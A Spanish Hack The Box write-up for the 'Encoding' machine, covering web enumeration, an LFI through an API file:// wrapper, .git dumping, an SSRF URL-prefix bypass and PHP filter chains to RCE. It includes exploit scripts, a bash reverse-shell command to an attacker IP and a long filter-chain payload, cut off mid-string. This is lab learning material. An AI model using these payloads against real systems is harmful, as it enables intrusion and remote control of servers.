





# Encoding (Linux)   - Español


Creador de la máquina: **[kavigihan](https://app.hackthebox.com/users/389926)**
### Writeup por **Tnr1112**

****

# Loot

## Usuarios
* svc
* root

****


# Common enumeration

## Nmap

| Port | Software       | Version               | Status |
| ---- | -------------- | --------------------- | ------ |
| 22   | ssh            | OpenSSH 8.9p1 Ubuntu 3ubuntu0.1  | open   |
| 80   | http           | Apache/2.4.52          | open   |

## Gobuster

### Directory listing
```bash
sudo gobuster dir -u 'http://haxtables.htb/FUZZ.php' -t 200 -w '/usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt'

==================================================================
ID    Response   Lines      Word         Chars          Request    
==================================================================
00245:  C=200     48 L	     137 W	   1999 Ch	  "index"
08218:  C=200      0 L	       2 W	     38 Ch	  "handler"
```

Directory listing **api**:
```bash
sudo gobuster dir -u 'http://api.haxtables.htb/v3/FUZZ' -t 200 -w '/usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt'

/index.php            (Status: 200) [Size: 38]
/utils.php            (Status: 200) [Size: 0]
```

### Subdomain listing
```bash
sudo gobuster vhost -u 'http://haxtables.htb' -t 200 -w '/usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-20000.txt' 

api.haxtables.htb (Status: 200) [Size: 0]
image.haxtables.htb (Status: 403) [Size: 284]
```

****
# Webpages

## haxtables.htb


## haxtables.htb/index.php?page=api



****

# www-data

La página nos permite convertir de string o int a algún formato.
Tienen un apartado de `api` para convertir estas cadenas por medio de `python` o `curl`. Ellos nos brindan un ejemplo con python.

Si en el campo `file_url` utilizamos el wrapper de `file://` conseguimos **LFI**.

```python
import requests, base64, json, sys

json_data = {
	'action': 'b64encode',
	'file_url' : f'file://{sys.argv[1]}'
}

response = requests.post('http://api.haxtables.htb/v3/tools/string/index.php', json=json_data)
print(base64.b64decode(json.loads(response.text)["data"]).decode("utf-8"))
```

Con el siguiente script, podremos hacer uso del **LFI** de una forma más sencilla.

Sabemos que corre un `apache`, por lo que vamos a buscar su archivo de configuración.

```bash
python3 lfi.py /etc/apache2/sites-available/000-default.conf 
<VirtualHost *:80>
        ServerName haxtables.htb
        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html


        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>


<VirtualHost *:80>
        ServerName api.haxtables.htb
        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/api
        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>

<VirtualHost *:80>
        ServerName image.haxtables.htb
        ServerAdmin webmaster@localhost
        
        DocumentRoot /var/www/image

        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined
        #SecRuleEngine On

        <LocationMatch />
                SecAction initcol:ip=%{REMOTE_ADDR},pass,nolog,id:'200001'
                SecAction "phase:5,deprecatevar:ip.somepathcounter=1/1,pass,nolog,id:'200002'"
                SecRule IP:SOMEPATHCOUNTER "@gt 5" "phase:2,pause:300,deny,status:509,setenv:RATELIMITED,skip:1,nolog,id:'200003'"
                SecAction "phase:2,pass,setvar:ip.somepathcounter=+1,nolog,id:'200004'"
                Header always set Retry-After "10" env=RATELIMITED
        </LocationMatch>

        ErrorDocument 429 "Rate Limit Exceeded"

        <Directory /var/www/image>
                Deny from all
                Allow from 127.0.0.1
                Options Indexes FollowSymLinks
                AllowOverride All
                Require all granted
        </DIrectory>

</VirtualHost>

# vim: syntax=apache ts=4 sw=4 sts=4 sr noet
```

Vemos que el subdominio `image.haxtables.htb` está en el directorio `/var/www/image`.
Buscando el `index.php`, vemos que incluye `utils.php`

```php
python3 lfi.py /var/www/image/index.php                     
<?php 

include_once 'utils.php';

include 'includes/coming_soon.html';

?>
```


```php
python3 lfi.py /var/www/image/utils.php
<?php

// Global functions

function jsonify($body, $code = null)
{
    if ($code) {
        http_response_code($code);
    }

    header('Content-Type: application/json; charset=utf-8');
    echo json_encode($body);

    exit;
}

function get_url_content($url)
{
    $domain = parse_url($url, PHP_URL_HOST);
    if (gethostbyname($domain) === "127.0.0.1") {
        echo jsonify(["message" => "Unacceptable URL"]);
    }

    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch, CURLOPT_PROTOCOLS, CURLPROTO_HTTP | CURLPROTO_HTTP);
    curl_setopt($ch, CURLOPT_REDIR_PROTOCOLS, CURLPROTO_HTTPS);
    curl_setopt($ch,CURLOPT_CONNECTTIMEOUT,2);
    curl_setopt($ch,CURLOPT_RETURNTRANSFER,1);
    $url_content =  curl_exec($ch);
    curl_close($ch);
    return $url_content;

}

function git_status()
{
    $status = shell_exec('cd /var/www/image && /usr/bin/git status');
    return $status;
}

function git_log($file)
{
    $log = shell_exec('cd /var/www/image && /ust/bin/git log --oneline "' . addslashes($file) . '"');
    return $log;
}

function git_commit()
{
    $commit = shell_exec('sudo -u svc /var/www/image/scripts/git-commit.sh');
    return $commit;
}
?>
```

Vemos que hay funciones que utilizan `git` en el directorio actual, por lo que si buscamos el `HEAD`, lo encontramos.

```bash
python3 lfi.py /var/www/image/.git/HEAD 
ref: refs/heads/master
```

Con esto confirmamos la existencia de un repositorio en este directorio.

Con la herramienta [GitDumper](https://github.com/internetwache/GitTools/blob/master/Dumper/gitdumper.sh), vamos a descargar la carpeta `.git`
Tuve que modificar la parte en la que hacía la petición para ajustarla a nuestro escenario.
Reemplacé la parte del `curl` por esto

```bash
local payload='{"action":"b64encode","file_url":"file://'$url'"}'
curl -s -X POST --data $payload http://api.haxtables.htb/v3/tools/string/index.php -H "Content-Type: application/json" | jq -r '.data' | base64 -d > $target
```

Después de ejecutarlo con `./gitdumper.sh /var/www/image/.git/ ../content/.git`, obtenemos esto:

```bash
ls -la
drwxr-xr-x tnr1112 tnr1112 140 B Sat Apr  1 22:44:17 2023 .
drwxr-xr-x tnr1112 tnr1112  24 B Sun Apr  2 11:35:57 2023 ..
drwxr-xr-x tnr1112 tnr1112  22 B Sat Apr  1 22:44:20 2023 info
drwxr-xr-x tnr1112 tnr1112  16 B Sat Apr  1 22:44:18 2023 logs
drwxr-xr-x tnr1112 tnr1112  84 B Sat Apr  1 22:44:28 2023 objects
drwxr-xr-x tnr1112 tnr1112  40 B Sat Apr  1 22:44:18 2023 refs
.rw-r--r-- tnr1112 tnr1112  17 B Sat Apr  1 22:44:16 2023 COMMIT_EDITMSG
.rw-r--r-- tnr1112 tnr1112  92 B Sat Apr  1 22:44:16 2023 config
.rw-r--r-- tnr1112 tnr1112  73 B Sat Apr  1 22:44:15 2023 description
.rw-r--r-- tnr1112 tnr1112  23 B Sat Apr  1 22:44:15 2023 HEAD
.rw-r--r-- tnr1112 tnr1112 821 B Sat Apr  1 22:44:17 2023 index
.rw-r--r-- tnr1112 tnr1112   0 B Sat Apr  1 22:44:17 2023 packed-refs
```

Al hacer un git log, para ver los commits, vemos lo siguiente

```bash
git log              
commit 9c17e5362e5ce2f30023992daad5b74cc562750b (HEAD -> master)
Author: james <james@haxtables.htb>
Date:   Thu Nov 10 18:16:50 2022 +0000

    Updated scripts!

commit a85ddf4be9e06aa275d26dfaa58ef407ad2c8526
Author: james <james@haxtables.htb>
Date:   Thu Nov 10 18:15:54 2022 +0000

    Initial commit
```

Como esto es medio complicado de leer, vamos a utilizar [Extractor](https://github.com/internetwache/GitTools/blob/master/Extractor/extractor.sh).
```bash
./extractor.sh ../content/.git/ ../content/.git2
###########
# Extractor is part of https://github.com/internetwache/GitTools
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances. 
# Only for educational purposes!
###########
fatal: Not a valid object name infopacks
[+] Found commit: 9c17e5362e5ce2f30023992daad5b74cc562750b
[+] Found folder: /home/tnr1112/Desktop/HTB/Encoding/scripts/../content/.git2/0-9c17e5362e5ce2f30023992daad5b74cc562750b/actions
[+] Found file: /home/tnr1112/Desktop/HTB/Encoding/scripts/../content/.git2/0-9c17e5362e5ce2f30023992daad5b74cc562750b/actions/action_handler.php
[+] Found file: /home/tnr1112/Desktop/HTB/Encoding/scripts/../content/.git2/0-9c17e5362e5ce2f30023992daad5b74cc562750b/actions/image2pdf.php
[+] Found folder: /home/tnr1112/Desktop/HTB/Encoding/scripts/../content/.git2/0-9c17e5362e5ce2f30023992daad5b74cc562750b/assets
[+] Found folder: /home/tnr1112/Desktop/HTB/Encoding/scripts/../content/.git2/0-9c17e5362e5ce2f30023992daad5b74cc562750b/assets/img
[+] Found file: /home/tnr1112/Desktop/HTB/Encoding/scripts/../content/.git2/0-9c17e5362e5ce2f30023992daad5b74cc562750b/assets/img/forestbridge.jpg
[+] Found folder: /home/tnr1112/Desktop/HTB/Encoding/scripts/../content/.git2/0-9c17e5362e5ce2f30023992daad5b74cc562750b/includes
[+] Found file: /home/tnr1112/Desktop/HTB/Encoding/scripts/../content/.git2/0-9c17e5362e5ce2f30023992daad5b74cc562750b/includes/coming_soon.html
[+] Found file: /home/tnr1112/Desktop/HTB/Encoding/scripts/../content/.git2/0-9c17e5362e5ce2f30023992daad5b74cc562750b/index.php
[+] Found folder: /home/tnr1112/Desktop/HTB/Encoding/scripts/../content/.git2/0-9c17e5362e5ce2f30023992daad5b74cc562750b/scripts
[+] Found file: /home/tnr1112/Desktop/HTB/Encoding/scripts/../content/.git2/0-9c17e5362e5ce2f30023992daad5b74cc562750b/scripts/git-commit.sh
[+] Found file: /home/tnr1112/Desktop/HTB/Encoding/scripts/../content/.git2/0-9c17e5362e5ce2f30023992daad5b74cc562750b/utils.php
[+] Found commit: a85ddf4be9e06aa275d26dfaa58ef407ad2c8526
[+] Found folder: /home/tnr1112/Desktop/HTB/Encoding/scripts/../content/.git2/1-a85ddf4be9e06aa275d26dfaa58ef407ad2c8526/actions
[+] Found file: /home/tnr1112/Desktop/HTB/Encoding/scripts/../content/.git2/1-a85ddf4be9e06aa275d26dfaa58ef407ad2c8526/actions/action_handler.php
[+] Found file: /home/tnr1112/Desktop/HTB/Encoding/scripts/../content/.git2/1-a85ddf4be9e06aa275d26dfaa58ef407ad2c8526/actions/image2pdf.php
[+] Found folder: /home/tnr1112/Desktop/HTB/Encoding/scripts/../content/.git2/1-a85ddf4be9e06aa275d26dfaa58ef407ad2c8526/assets
[+] Found folder: /home/tnr1112/Desktop/HTB/Encoding/scripts/../content/.git2/1-a85ddf4be9e06aa275d26dfaa58ef407ad2c8526/assets/img
[+] Found file: /home/tnr1112/Desktop/HTB/Encoding/scripts/../content/.git2/1-a85ddf4be9e06aa275d26dfaa58ef407ad2c8526/assets/img/forestbridge.jpg
[+] Found folder: /home/tnr1112/Desktop/HTB/Encoding/scripts/../content/.git2/1-a85ddf4be9e06aa275d26dfaa58ef407ad2c8526/includes
[+] Found file: /home/tnr1112/Desktop/HTB/Encoding/scripts/../content/.git2/1-a85ddf4be9e06aa275d26dfaa58ef407ad2c8526/includes/coming_soon.html
[+] Found file: /home/tnr1112/Desktop/HTB/Encoding/scripts/../content/.git2/1-a85ddf4be9e06aa275d26dfaa58ef407ad2c8526/index.php
[+] Found folder: /home/tnr1112/Desktop/HTB/Encoding/scripts/../content/.git2/1-a85ddf4be9e06aa275d26dfaa58ef407ad2c8526/scripts
[+] Found file: /home/tnr1112/Desktop/HTB/Encoding/scripts/../content/.git2/1-a85ddf4be9e06aa275d26dfaa58ef407ad2c8526/scripts/git-commit.sh
[+] Found file: /home/tnr1112/Desktop/HTB/Encoding/scripts/../content/.git2/1-a85ddf4be9e06aa275d26dfaa58ef407ad2c8526/utils.php
```

Y obtenemos los dos commits que hay

```bash
ls -la
drwxr-xr-x tnr1112 tnr1112 168 B Sun Apr  2 11:27:46 2023 .
drwxr-xr-x tnr1112 tnr1112 308 B Sun Apr  2 11:55:00 2023 ..
drwxr-xr-x tnr1112 tnr1112 122 B Sun Apr  2 11:27:46 2023 0-9c17e5362e5ce2f30023992daad5b74cc562750b
drwxr-xr-x tnr1112 tnr1112 122 B Sun Apr  2 11:27:46 2023 1-a85ddf4be9e06aa275d26dfaa58ef407ad2c8526

cd 1-a85ddf4be9e06aa275d26dfaa58ef407ad2c8526
ls -la
drwxr-xr-x tnr1112 tnr1112 122 B  Sun Apr  2 11:27:46 2023 .
drwxr-xr-x tnr1112 tnr1112 168 B  Sun Apr  2 11:27:46 2023 ..
drwxr-xr-x tnr1112 tnr1112  62 B  Sun Apr  2 11:27:46 2023 actions
drwxr-xr-x tnr1112 tnr1112   6 B  Sun Apr  2 11:27:46 2023 assets
drwxr-xr-x tnr1112 tnr1112  32 B  Sun Apr  2 11:27:46 2023 includes
drwxr-xr-x tnr1112 tnr1112  26 B  Sun Apr  2 11:27:46 2023 scripts
.rw-r--r-- tnr1112 tnr1112 169 B  Sun Apr  2 20:33:05 2023 commit-meta.txt
.rw-r--r-- tnr1112 tnr1112  81 B  Sun Apr  2 20:33:05 2023 index.php
.rw-r--r-- tnr1112 tnr1112 1.2 KB Sun Apr  2 20:33:05 2023 utils.php
```

Veamos el archivo `actions/action_handler.php`

```php
<?php
include_once 'utils.php';

if (isset($_GET['page'])) {
    $page = $_GET['page'];
    include($page);
} else {
    echo jsonify(['message' => 'No page specified!']);
}
?>
```

Es vulnerable a **LFI**, pero hay un problema, porque si leemos el `utils.php`, vemos que solo acepta peticiones desde **localhost**. Pero esto no es problema porque podemos aprovecharnos de la **api**.

```php
<?php

// Global functions

function jsonify($body, $code = null)
{
    if ($code) {
        http_response_code($code);
    }

    header('Content-Type: application/json; charset=utf-8');
    echo json_encode($body);

    exit;
}

function get_url_content($url)
{
    $domain = parse_url($url, PHP_URL_HOST);
    if (gethostbyname($domain) === "127.0.0.1") {
        echo jsonify(["message" => "Unacceptable URL"]);
    }

    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch, CURLOPT_PROTOCOLS, CURLPROTO_HTTP | CURLPROTO_HTTP);
    curl_setopt($ch, CURLOPT_REDIR_PROTOCOLS, CURLPROTO_HTTPS);
    curl_setopt($ch,CURLOPT_CONNECTTIMEOUT,2);
    curl_setopt($ch,CURLOPT_RETURNTRANSFER,1);
    $url_content =  curl_exec($ch);
    curl_close($ch);
    return $url_content;

}

function git_status()
{
    $status = shell_exec('cd /var/www/image && /usr/bin/git status');
    return $status;
}

function git_log($file)
{
    $log = shell_exec('cd /var/www/image && /ust/bin/git log --oneline "' . addslashes($file) . '"');
    return $log;
}

function git_commit()
{
    $commit = shell_exec('sudo -u svc /var/www/image/scripts/git-commit.sh');
    return $commit;
}
?>
```

Ahora vamos a leer el `handler.php` que fuzzeamos antes.
```php
python3 lfi.py /var/www/html/handler.php

<?php
include_once '../api/utils.php';

if (isset($_FILES['data_file'])) {
    $is_file = true;
    $action = $_POST['action'];
    $uri_path = $_POST['uri_path'];
    $data = $_FILES['data_file']['tmp_name'];

} else {
    $is_file = false;
    $jsondata = json_decode(file_get_contents('php://input'), true);
    $action = $jsondata['action'];
    $data = $jsondata['data'];
    $uri_path = $jsondata['uri_path'];


    if ( empty($jsondata) || !array_key_exists('action', $jsondata) || !array_key_exists('uri_path', $jsondata)) 
    {
        echo jsonify(['message' => 'Insufficient parameters!']);
        // echo jsonify(['message' => file_get_contents('php://input')]);

    }

}

$response = make_api_call($action, $data, $uri_path, $is_file);
echo $response;
?>
```

Despues de analizar el código por completo vemos que es propenso a un **SSRF**. El código verifica si se recibieron datos en la petición **HTTP** en formato de archivo o en formato **JSON**. En ambos casos, los datos se decodifican y se utilizan en una llamada a la función `make_api_call`. Sin embargo, no se realiza una validación adecuada de los datos antes de utilizarlos en la solicitud HTTP.

`utils.php`

```php
<?php

// Global functions

function jsonify($body, $code = null)
{
    if ($code) {
        http_response_code($code);
    }

    header('Content-Type: application/json; charset=utf-8');
    echo json_encode($body);

    exit;
}


function get_included_contents($filename) {
    ob_start();
    include $filename;
    return ob_get_clean();
}

function get_url_content($url){
    $domain = parse_url($url, PHP_URL_HOST);
    if (gethostbyname($domain) === "127.0.0.1") {
        jsonify(["message" => "Unacceptable URL"]);
    }

    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch,CURLOPT_CONNECTTIMEOUT,2);
    curl_setopt ($ch, CURLOPT_FOLLOWLOCATION, 0);
    curl_setopt($ch,CURLOPT_RETURNTRANSFER,1);
    $url_content =  curl_exec($ch);
    curl_close($ch);
    return $url_content;
}

function make_api_call($action, $data, $uri_path, $is_file = false){
    if ($is_file) {
        $post = [
            'data' => file_get_contents($data),
            'action' => $action,
            'uri_path' => $uri_path
        ];
    } else {
        $post = [
            'data' => $data,
            'action' => $action,
            'uri_path' => $uri_path
        ];
    }
    
    $ch = curl_init();
    $url = 'http://api.haxtables.htb' . $uri_path . '/index.php';
    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch,CURLOPT_CONNECTTIMEOUT,2);
    curl_setopt($ch, CURLOPT_PROTOCOLS, CURLPROTO_HTTP);
    curl_setopt ($ch, CURLOPT_FOLLOWLOCATION, 0);
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
    curl_setopt($ch, CURLOPT_POSTFIELDS, json_encode($post));
    curl_setopt( $ch, CURLOPT_HTTPHEADER, array('Content-Type:application/json'));
    $response = curl_exec($ch);
    curl_close($ch);
    return $response;    
}
?>
```

Hay que tener en cuenta una cosa, la **url** que nosotros podemos ingresar va a ir a $url pero inserta la nuestra en el medio. La forma de bypassear esto y que no entre a `http://api.haxtables.htb` es poniendo un `@` antes de nuestra url y un `#` al final para comentar lo que siga.



Con [PHP filters chain](https://github.com/synacktiv/php_filter_chain_generator) podemos pasar de un **LFI** a un **RCE** en PHP. Es una técnica que permite a un atacante crear una cadena de filtros que procesen y transformen datos de entrada para poder ejecutar comandos.
[Explicación](https://www.synacktiv.com/publications/php-filters-chain-what-is-it-and-how-to-use-it.html)

Con `python3 php_filter_chain_generator.py --chain "<?php system('bash -c \"bash -i >& /dev/tcp/10.10.14.163/4444 0>&1\"')?>"` vamos a generar la cadena necesaria para obtener una **Reverse shell**:

Nos ponemos en escucha en el puerto **4444**

```bash
nc -nlvp 4444
listening on [any] 4444 ...
```

Enviamos la petición y obtenemos una **shell** como **www-data**.



Con la técnica `PHP filters chain` podíamos haberla aplicado con el primer **LFI**, sin necesidad de bypassear la url el el filtro de **localhost**.

```python
import requests, base64, json

json_data = {
        'action': 'b64encode',
        'file_url' : 'image.haxtables.htb/actions/action_handler.php?page=php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.UCS2.UTF-8|convert.iconv.CSISOLATIN6.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UNICODE|convert.iconv.ISIRI3342.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.DEC.UTF-16|convert.iconv.ISO8859-9.ISO_6937-2|convert.iconv.UTF16.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM860.UTF16|convert.iconv.ISO-IR-143.ISO2022CNEXT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.iconv.CP950.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UNICODE|convert.iconv.ISIRI3342.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16|convert.iconv.WINDOWS-1258.UTF32LE|convert.iconv.ISIRI3342.ISO-IR-157|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500-1983.UCS-2BE|convert.iconv.MIK.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP